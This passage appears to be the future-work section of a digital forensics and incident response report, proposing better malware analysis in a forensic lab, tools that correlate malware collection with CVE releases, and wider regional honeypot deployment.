- **Enhance Digital Forensic Lab:** Strengthen the capabilities of the Digital Forensic Lab to conduct thorough static and dynamic analysis of collected malware. By investing in advanced tools and technologies, the lab will be better equipped to extract critical information and gain deeper insights from malware samples, aiding in investigations and response efforts.
- **Develop Analytical Tools:** Create specialized tools to analyze the relationship between the time gap of malware collection and the release of vulnerabilities (e.g., the latest CVEs). Focus on studying the frequency of zero-day attacks and their correlation with vulnerabilities. These tools will provide valuable insights into the effectiveness of existing security measures and inform proactive defense strategies.
- **Expand Honeypot Deployment:** Expand the deployment of honeypots across different regions to gather a broader set of data. By comparing the collected data from various regions, it will be possible to identify regional variations in hacker activities and tactics. This understanding can contribute to the development of targeted security measures and enhance overall threat intelligence.

By undertaking these future initiatives, we aim to bolster our DFIR capabilities, enhance our understanding of emerging threats, and strengthen our overall cybersecurity posture.
